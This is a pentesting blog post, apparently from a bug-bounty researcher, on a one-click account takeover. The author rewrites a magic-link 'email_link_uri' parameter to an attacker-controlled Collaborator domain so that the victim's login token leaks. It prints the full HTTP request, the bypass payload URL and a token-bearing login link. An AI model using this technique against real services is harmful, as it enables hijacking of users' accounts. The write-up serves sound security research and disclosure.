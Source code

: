 ```yaml
---
title: Magic Links as Gateways to Account Takeovers
author: sl4x0
image:
  path: /assets/images/pentesting/magic-link-flow.gif
date: 2024-03-04 23:00:00 +0800
categories: Pentesting
description: "How a Magic Link can be used to take over an account with a mistake on a single parameter"
tags: [ATO, Magic Links]
toc: true
---
```


﷽

Hello, today I will discuss a `1-Click ATO` bug that I encountered during a pen-test engagement. Let’s say the target name is: `host.io`.

## Starting with Sign-up

During the sign-up process, there are two methods of registration: signing up with a **non-existent** email address and signing up with an **existing** email address.

![Sign-up](/assets/images/pentesting/1.webp)

The first kind of sign-up is the normal one. You simply input your email address and click submit. A confirmation email will be sent to you to ensure that you are the owner of the email address. After confirming your email address, you will proceed to insert your information and complete the account creation process (name, company name, etc.).

### Signing up with an existing Email

The second option only works when you check the circle next to the sentence “I will be joining an existing `Host` account.” This option entails two scenarios:

**First**: If you have already registered with an account, you will be sent an email containing a magic link that allows you to log in directly without needing a password.

**Second**: If you have not registered with the email before, you will simply confirm your email and complete the sign-up process as mentioned above.

However, our focus is primarily on the **first scenario**!

## The Misused Parameter

```http
POST /account/v2/auth/magiclink/email/ HTTP/2
Host: sub.host.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://app.host.io/
Content-Type: application/json
Content-Length: 192
Origin: https://app.host.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Te: trailers

{"email":"myFirend@email.com","referral_code":null,"email_link_uri":"https://host.io","require_ad_spend":false,"account_type":"Standard"}
```

Upon sending this request I observed two things: first the `email_link_uri` parameter and second the response itself.

![Response](/assets/images/pentesting/2.webp)

The response received after investigation is not the token located on the magic link sent to the victim, which enables them to log in. The magic link that enables the victim to log in is structured as follows:

```http
https://host.io/?login_token=[different_token]&account_type=Standard&require_ad_spend=False
```

This link contains a `unique login token` different from the one located in the response. The Trick here is how we can leak the token that was sent to the victim.

Remember the `email_link_uri` parameter? I tried manipulating it so I could hold the Collaborator link instead of the website URL itself. However, I encountered a weird response.

![Response](/assets/images/pentesting/3.webp)

That triggers the `CORS Misconfiguration Bypasses` inside my head 😄.

I tried to add the link below:

```http
https://host.io.muk4beh062sbtx1v86cglfhd74dx1npc.oastify.com
```

And hell yeah! It succeeded!

![Response](/assets/images/pentesting/4.webp)

And the link that was sent to the victim looks like this one:

![Response](/assets/images/pentesting/5.webp)

Now, When the victim clicks on this link he will just go my collaboration server and the victim login token will be sent to my server as below:

![Response](/assets/images/pentesting/6.webp)

Now you can just remove the collaborator server and leave the URL as below to takeover the victim account:

`https://host.io/?login_token=5c0cdce5658eae411247e6cfb015c7906088ff2b&account_type=Standard&require_ad_spend=False`

In summary, always inspect every parameter in important requests like reset password, email change, set password, etc. It may uncover vulnerabilities that you couldn’t imagine existed. Thank you for reading, and you can follow me on Twitter: [@sl4x0](https://twitter.com/sl4x0).
